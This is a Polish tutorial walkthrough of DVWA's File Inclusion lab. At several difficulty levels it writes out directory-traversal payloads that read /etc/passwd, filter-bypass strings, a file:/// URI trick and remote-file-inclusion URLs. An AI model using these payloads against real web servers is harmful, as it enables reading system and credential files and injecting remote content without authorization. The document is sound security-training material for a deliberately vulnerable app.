# File Inclusion- Walkthrough

- Autor: [Mateusz Głuchowski](https://github.com/hue1337)

# Local File Inclusion- DVWA

## Jak połączyć się z DVWA?
1. Wpisujemy w przeglądarce link: http://192.168.X.X/DVWA/vulnerabilities/fi/?file=include.php.
2. Upewniamy się, że poziom trudności jest ustawiony na `LOW`:

    

3. Jeżeli poziom trudności jest inny to zmieniamy go w zakładce `DVWA Security`:

    

4. Na koniec przechodzimy do zakładki `File Inclusion`:

    

## Cheatsheet- Local File Inclusion
- Zanim przejdziemy do przeprowadzenia ataku warto wiedzieć, czego będziemy szukali na serwerze. Poniżej znajduję lista powszechnych plików systemowych, których możemy użyć podczas testowania aplikacji:

    

    _Źródło: https://tryhackme.com_


## LFI- Low Security

- Teraz możemy w pełni przejść do przeprowadzenia ataku `LFI`. W linku znajduje się parametr odpowiadający za ładowanie strony internetowej, którym będziemy się posługiwali przez całe walkthrough:

    ```
    ?page=include.php
    ```
    


- Na poziomie **LOW** praktycznie nie ma zabezpieczeń, w związku z czym od razu możemy przejść do zabawy:

    1. Zmieniamy wartość parametru w URL z `index.php` w celu zobaczenia zachowania maszyny (zobaczanie potncjalnych informacji o błędzie np.: `... include(var/www/html/DVWA/.../file.txt) ... not found`):
        ```
        http://192.168.X.X/DVWA/vulnerablity/fi/?page=file.txt
        ```
    2. Niestety aplikacja nie podaje informacji zwrotnych, w związku z czym korzystamy z wiedzy własnej, albo pytamy o pomoc **WUJKA GOOGLE**. Serwisy postawione na systemach z rodziny UNIX najczęściej mają kody źródłowe umieszczone w folderze `/var/www/html/`. W związku z czym analizujemy naszą sytuację:
        - Link wygląda następująco:
            ```
            http://192.168.X.X/DVWA/vulnerablities/fi/?page=include.php
            ```
        - Po adresie `IP`, znajduje się ścieżka do pliku (strony), na której się znajdujemy:
            ```
            /DVWA/vulnerabilities/fi/?page=include.php
            ```
        - Wcześniej dowiedzieliśmy się, że aplikacja znajduję się (najprawdopodbniej) na ścieżce `var/www/html/`. Łącząc fakty dostajemy ścieżkę:
            ```
            /var/www/html/DVWA/vulnerabilities/fi/
            ```
        - Na podstawie tego widzimy, że musimy przejść 6 folderów do góry, aby dostać się do folderu głównego. Zaczynamy tworzyć **PAYLOAD** wykorzystując `Directory Traversal`:
            ```
            ../../../../../../
            ```
        - Uznajmy, że naszą flagą będzie plik `/etc/passwd`, który wzięliśmy ze ściągawki. Rozbudowujemy **PAYLAODA**:
            ```
            ../../../../../../etc/passwd
            ```
    3. Stworzonego **PAYLOADA** podstawiamy jako parametr linku:
        ```
        http://192.168.X.X/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
        ```
        Po wyświetleniu się zawartości pliku `etc/passwd` wiemy, że nasz payload zadziałał: 
        
        

- Polecam spróbować stworzyć **PAYLOADY** w celu wyświetleniach zawartości innych plików z naszego **chaetsheetu**.

## LFI- Medium Security

- Zanim przejdziemy do ataku na poziomie **medium** musimy zmienić poziom trudności. Przechodzimy do zakładki `DVWA Security` i wprowadzamy poniższe zmiany:
    
    

    1. Na poziomie `medium` występuje już podstawowa walidacja inputu, którą rozpoznamy poprzez metodę prób i błędów. Zaczynamy testowanie od **PAYLOADA** z poprzedniego poziomu trudności:
       
        
    
        Jak widać zawartość pliku nie wyświetla nam się. Bardzo częstą metodą walidacji inputu jest usuwanie ciągów znaków takich jak: `../` lub `..` lub `//`. Sprawdźmy nasze podejrzenia i zastosujmy następujący **PAYLOAD**:

        ```
        ....//....//....//....//....//....//etc/passwd
        ```

        Efekt jest natychmiastowy:

        

    2. Możemy również spróbować podać bezpośrednią ścieżkę do pliku i zabaczyć jaki będzie efekt:
        ```
        /etc/passwd
        ```

        Efekt identyczny jak poprzednio:

        


    3. Przybliżę jak wyglądała walidacja inputu na poziomie **medium**. W folderze `DVWA/vulnerabilities/fi/source/` znajduje się plik `medium.php`:
        ```php
        <? php
        
        // The page we wish to display
        $file = $_GET['page'];

        // Input validation
        ...
        
        $file = str_replace( array( "../", "..\\" ),  "", $file );

        ?>

        ```
        Kod odpowiadający za walidację inputu usuwa następujące ciągi znaków: `../` oraz `..\`. Pierwszy **PAYLOAD** wykorzystywał te funkcję, która zamieniła nasz ciąg: `....//` na `../`. Z koleji drugi **PAYLOAD** nie posiadał ciągu, który mogłby zostać zmieniony: `/etc/passwd`.

- Podobnie jak na poprzednim poziomie zachęcam do napisania **PAYLOADÓW**, w celu podejrzenia zawartości pozostałych plików ze ściągawki.

## LFI- High

- Tak samo jak na poprzednich etapach zmieniamy poziom trudności:
    
    


    1. Najpierw zobaczmy jak poradzą sobie **PAYLOADY** z poprzednich etapów. Dostajemy informację zwrotną niezależnie od payloada: 

        

    2. Na tym etapie musimy zobaczyć jak zachowuje się walidacja inputu poprzez metodę prób i błędów. Po n-tym razie wpisałem `file.php` i otrzymałem taki rezultat:

        

        Oznacza to, że plik, który nie istnieje na serwerze został przepuszczony jako input. Sprawdziłem dla formalności inne rozszerzenie i otrzymałem identyczny rezultat:

        

        Z tego wynika, że walidacja akceptuje input zaczynający się od słowa `file`. Na podstawie tej infotmacji możemy stworzyć próbnego **PAYLOADA**.

    3. Jeżeli otwierałaś/eś pliki (np.: `*.pdf`, `*.html`) w przeglądarce to pewnie rozpoznasz ten `schemat URI`:

        

        Na tej podstawie oprzemy naszego **PAYLOADA**:
        ```
        file:///etc/passwd
        ```
    4. Rezultat jest następujący:

        

        Tak samo jak poprzednio zalecam spróbować z innymi plikami z **cheatsheetu**.

# RFI- Remote File Inclusion

- Zaczynamy od zmiany poziomu trudności na `LOW`:
    

- Za flagę uznamy wyświetlenie GIF-a na naszej stronie.

## RFI- Low

1. Na poziomie `Low` podobnie jak w przypadku ataku `LFI` praktycznie nie ma zabezpieczeń, więc od razu możemy przejść do napisania najprostszego **PAYLOADA**, czyli wstawienie linku do pliku, który chcemy wyświetlić.

2. Przygotowałem folder z kilkoma gotowymi **payloadami**, z których będziemy korzystali: https://github.com/Hue1337/WhiteHats-walkthrough/blob/main/payloads/

3. Spróbujmy za parametr podstawić link do naszego gif-a:
    ```
    https://raw.githubusercontent.com/Hue1337/WhiteHats-walkthrough/main/payloads/thicc_gif.html
    ```

4. W prosty sposób udało nam się przeprowadzić skuteczy atak RFI:

    


## RFI- Medium
- Zmieniamy poziom trudności:

    

    1. Zaczynamy tradycyjnie od spróbowania **PAYLOADA** z poprzedniego poziomu trudności:

    

    2. Jak widzimy nie przyniosło to rezultatów, w związku z czym powracamy do naszej metody prób i błędów. Po paru udało mi się odkryć, że elementem walidacji inputu jest człon `http://` oraz `https://`.

    3. Postanowiłem przyjąć podobną taktykę jak na poziomie `medium LFI` i napisałem takiego payloada:

        ```
        hhttps://ttps://raw.githubusercontent.com/Hue1337/WhiteHats-walkthrough/main/payloads/thicc_gif.html    
        ```

        Efekt był natychmiastowy:

        
    
## RFI- High 

- Na poziomie `high` nie jest możliwe wykonanie akatku `RFI`, ponieważ walidacja pozwala tylko na podanie wartości parametru zaczynającego się od `file`, bądź będącego plikiem `include.php`.